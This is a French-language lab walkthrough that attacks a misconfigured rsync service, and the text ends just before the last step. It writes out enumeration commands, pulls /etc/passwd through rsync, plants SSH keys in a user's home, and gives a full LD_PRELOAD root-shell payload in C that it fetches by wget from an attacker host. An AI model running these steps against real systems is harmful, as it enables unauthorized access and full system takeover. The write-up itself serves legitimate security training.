**Description:**
Rsync is a Linux-based service for synchronizing files and directories from one source to another quickly and efficiently. It is ideal for transferring files between both local and remote systems.  
  
It is recommended to practice exploiting vulnerabilities in a machine running a misconfigured rsync service to gain access and perform privilege escalation attacks.

Système : Linux

Étape :

- **Scan Nmap** 

nmap -sC -sV 172.20.1.60


On a 3 ports intéressants : le service nfs sur le port 2049 , le service rsync sur le port 873 et le service SSH sur le port 22 

NB : 

**Le Protocole NFS (Network File System) :** 
Le protocle NFS est un system de de fichiers distribués crée par Sun Microsystem qui permet a des ordinateurs d'accéder a des fichiers sur le réseau comme s'ils étaient locaux facilitant le partage de fichiers entre systeme Linux, Windows ..

###### Se connecter au service NFS 

###### Etape : Enumeration NFS 

- Verifier les services RPC 

`rpcinfo -p 172.20.1.162`

- Montrer les exports en utilisant l'outil showmount : les exports ne sont rien d'autres que les fichiers partagés 

`showmount -e 172.20.1.162`

###### Monter les fichiers partagés en utilisant la commande mount 

 - Etape 1 : créer un dossier du mountage 
 
 	COmmande : 
 		`sudo mkdir /mnt/nfs_mount` 
 		
 	exple:
```
 showmount -e 172.20.1.162      
Export list for 172.20.1.162:
/root *

```
- Etape 2 : Mounter avec "mount"
	
	Commande 
		sudo mount -t nfs IP:/CHemin_partage /mnt/nfs_mount 
		
		exple :
		sudo mount -t nfs 172.20.1.162:/root /mnt/nfs_mount
		

-  lire les mountages 

	commande :
		
		sudo ls -la /mnt/nfs_mount 

**Le rsync** 
[Rsync](https://en.wikipedia.org/wiki/Rsync) (Remote sync)

**est un outil de ligne de commande puissant et populaire pour **synchroniser des fichiers et des répertoires** entre deux emplacements (locaux ou distants) efficacement, en ne transférant que les différences, ce qui le rend idéal pour les **sauvegardes incrémentielles**, le miroir de sites et les transferts réseau, souvent via** SSH pour la sécurité. Ses fonctionnalités clés incluent des transferts delta (ne transfère que les parties modifiées), la reprise des transferts interrompus et la préservation des permissions/horodatage

Le fichier de configuration de rsync se trouve dans #/etc/rsyncd.conf

```
rsync [OPTIONS] SOURCE DESTINATION
```
Exemple :
```
rsync -avz --delete ftp4.de.FreeBSD.org::FreeBSD/ /pub/FreeBSD/
```

Lister les modules rsync disponibles 
```
rsync rsync://172.20.1.60/
```


Commande :

Explorer un module spécifique
```
rsync rsync://172.20.1.60/root
```



Télécharger un module 

Commande : 
```
rsync -av rsync://172.20.1.60/root ./dossier_sortie/
```



Extraire les fichiers spécifiques 

Dans notre exemple : 
Extraire le /etc/passwd 

```
rsync -av rsync://172.20.1.60/root/etc/passwd ./

```



Extraire le fichier de configuration de rsync 
```
rsync -av rsync://172.20.1.60/root/etc/rsyncd.conf ./

```


Boom le fichier de configuration montre qu'on peut le modifier du a une mauvaise configuration qui au niveau de **read only=no** 
Sachant que ce fichier est exécuté en mode root ce qui signifie qu'un reverse shell suffit pour qu'on devienne root.#

Annalyser le dossier backups 


Inéressant, On remarque que le dossier **backup** contient un dossier logs qui lui contient les  logs d'authentifications 

- Escalade de priviledge 
Vu de base que le rsync fonctionne avec les privileges de sasha , nous allons essayer d'uploader un fichier dans son répertoire personnel pour voire 

Syntaxe pour faire un upload :
```
rsync -av test.txt rsync://172.20.1.60/root/home/sasha 
```



Boom on peu uploader in fichier dans le repertoire de l'utilisateur sasha que le rsync va ensuite synchroniser directement en avec des privileges root. Ainsi la clé de notre Privesc 
Rsync, lorsqu'il est configuré avec `uid = 1001`, écrit les fichiers avec cet identifiant d'utilisateur, quel que soit l'utilisateur qui initie la connexion. Cela signifie que :

1. **Contournement des permissions** : L'attaquant peut écrire dans `/home/sasha/.ssh/` sans avoir besoin des permissions UNIX normales
    
2. **Persistance SSH** : Le fichier `authorized_keys` déposé sera considéré comme légitime par le démon SSH
    
3. **Accès permanent** : L'accès SSH ainsi obtenu persistera même après la désactivation de Rsyn

Etape :

**générer une clé ssh** 

ssh-keygen -t rsa



Avant d'uploader, copier le contenu de la clé publique et le coller dans authorized_keys
Ce fichier contient la **liste blanche** des clés publiques autorisées à se connecter


Uploader la le dossier /root/.ssh
```

rsync -av /root/.ssh rsync://172.20.1.60/root/home/sasha

```


Se connecter ensuite par ssh 

`ssh sasha@172.20.1.60`



Escalade de priviledge 

Test manuel 
```
sudo -l
Matching Defaults entries for sasha on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User sasha may run the following commands on debian:
    (ALL) NOPASSWD: /usr/local/bin/sys_helper
sasha@debian:/backups/database$ 
```

Boom on l'utilisateur peut exécuter le **/usr/local/bin/sys_helper** en tant que root sans mot de passe.
```

env_keep+=LD_PRELOAD  # ← IMPORTANT !

```
LD_PRELOAD est une variable d'environnement critique qui permet de **charger des bibliothèques partagées avant toutes les autres**. 
Donc on va exploiter cette variable d'environnement pour créer faire le Privesc 

Payload :
```

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0, 0, 0);
    system("/bin/bash -p");
}

```

Mettre em place un serveur python 
```
python -m http.server 8080 
```

Uploader sur la cible 
```
wget http://10.8.96.179:8080/lib_escalat.c
```
Compiler 
```
 gcc -fPIC -shared -nostartfiles -o /tmp/escalate.so lib_escalat.c

```
Augementer ainsi les privileges avec la commande suit : 


